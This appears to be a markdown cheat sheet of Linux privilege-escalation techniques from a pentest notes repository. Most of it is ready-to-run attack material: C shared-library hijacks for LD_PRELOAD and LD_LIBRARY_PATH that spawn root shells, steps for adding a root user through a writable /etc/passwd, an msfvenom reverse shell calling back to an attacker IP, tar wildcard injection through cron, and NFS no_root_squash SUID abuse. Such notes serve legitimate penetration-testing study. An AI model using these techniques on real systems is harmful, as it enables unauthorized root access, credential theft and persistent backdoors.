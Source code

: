 # Linux Privilege Escalation 

## Tools
1. linpeas.sh
2. Linux Smart Enumeration
3. LinEnum

## Service Exploit
- ```ps aux | grep "^root"``` will show all processes running as root.
- Then try to identify the version number of each processes with:
```bash
<program> --version
<program> -v

# debian
dkpg -l | grep <program>

# rpm
rpm -qa | grep <program>
```
## Port Forwarding
- Run this in the victim machine:
``` ssh -R <local-port>:127.0.0.1:<servnice-port> <username>@<kali-machine>```
- you can use ```netstat -an``` or ```netstat -nl``` to see which port are listening locally. ```mysql``` usually listen on ```3306```
- now you can run services that are listening locally with your kali macchine for example:
```
mysql -u root -h 127.0.0.1 -P 4444
```
## Weak File Permissions

### /etc/shadow
- Example when ```/etc/shadow``` are readable for all, you can get the hash and bruteforce it.
- if ```/etc/shadow``` is writeable you can include your own password with ```mkpasswd -m sha-512 <password>```

### /etc/passwd
- if editing is possible you can attempt to remove the ```x``` from ```root:x:0:0:root:/bin/bash```. This tells linux root has no pw.
- alternatively, you can replace the hash in ```x``` using ```openssl passwd <password>```
- you can append a new row to create another alternative root user ```root2:<hash>:0:0:root2:/bin/bash```

### Backup
- Commmon place to look for backup files include ```/```, ```/tmp```, ```/var/backup```
- You may find ```ssh``` private key from readable ```.ssh``` directory

## Sudo
- Run a program with root using ```sudo <program>```
- Run a program with a specific user using ```sudo -u <username> <program>```
- Usually you will know if you can run program as another user or root through ```sudo -l```
- if you can run root as a user for all program but ```su``` is not available you can run things like
```
sudo -s
sudo -i
sudo /bin/bash
sudo passwd
```
- you can go to GTFObin to see if you can escape to root if there are available sudo program
- even if its not in GTFObin, you can try to abuse its intended use. For example ```sudo /usr/bin/apache2 -f /etc/shadow``` can read the file.

### ENV_RESET

- if this is not set you can change the path and escalate privilege.

### LD_PRELOAD
- will not work if real user id != effective user id
- sudo must be configured to preserve the LD_PRELOAD this can see in ```sudo -l```
- use this script named as ```preload.c```:
``` c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
  unsetenv("LD_PRELOAD");
  setresuid(0,0,0);
  system("/bin/bash -p");
}
```
- compile it ```gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c```
- run ```sudo LD_PRELOAD=/tmp/preload.so find``` to get root

### LD_LIBRARY_PATH
- ```sudo -l``` should state there is LD_LIBRARY_PATH
- run ```ldd /usr/sbin/apache2 #or any program name``` to list the shared library and pick any one.
- use this script called library_path.c
``` c
#include <stdio.h>
#include <stdlib.h>

static void hijack()__attribute__((consstructor));

void hijack() {
  unsetenv("LD_LIBRARY_PATH");
  setresuid(0,0,0);
  system("/bin/bash -p");
}
```
- compile ```gcc -o libcrypt.so.1 -shared -fPIC library_path.c```
- run the program with that library ```sudo LD_LIBRARY_PATH=. apache2```

## Cron jobs 

- crontabs are usually located at ```/var/spool/cron/``` and ```/var/spool/cron/crontabs/```
- system wide crontab is located at ```/etc/crontab```

### File Permission + Cron
- ```cat /etc/crontab```
- check if cron jobs file are writeable ```ls -la```
- edit with reverse shell or bin/sh

### Path Env + Cron
- crontab default path is ```/usr/bin:/bin```
- you can create a file with same name so cron will trigger based on path
- ```cat /etc/crontab``` under ```PATH``` to see the path

### Wildcard + Cron
- if a cron job file as ```*``` and GTFO said you can get a shell you may use this method
- create a reverse shell with msfvenom 
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.23 LPORT=8133 -f elf -o shell.elf
```
- transfer to victim and make it executable
- run
```
touch ./--checkpoint=1
touch ./--checkpoint-action=exec=shell.elf
```
- setup nc and await cronjob.

## SUID/SGID

- run this to enumerate
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null
```
- See GTFObin to see exploit
- Can see searchsploit and exploit DB for version number exploit as well.

### Uncommon SUID/SGID and shared library or non-absolute path
- Look into the script with ```strace``` or ```ltrace``` or ```strings``` and see if they are running anything editable or exploitable.

## Passwords and Keys

- Look for weak password or re-use passowrd
- see .bash_history or anything with ```_history```
- ```cat *history | less```
- password can be hidden in config file and .ssh file as well.

## NFS

- Show NFS export list
```showmount -e <target>```
- Nmap
```nmap -sV --script=nfs-showmount <target>```
- Mount an NFS Share
```mount -o rw,vers=2 <target>:<share> <local_directory>```


### no_root_squash
1. You can view it thru ```cat /etc/exports``` and look for ```no_root_squash``` file
2. make a mount point with victim ```mount -o rw,vers=2 10.10.14.23:/tmp /tmp/nfs``` this is assuming tmp has no_root_squash.
3. create reverse shell in the mount directory ```msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf```
4. run ```chmod +xs /tmp/nfs/shell.elf``` with kali
5. go to victim shell and run the script ```/tmp/nfs/shell.elf```

## Kernel Exploit (Last Resort)
- To enumerate Kernel version ```uname -a```
- Find exploit
- Run (Beware usually is 1 time and will crash system)
- ```Linux exploit suggester 2``` is a good tool to find kernel exploit:
```./linux-exploit-suggester-2.pl -k <kernel version>```

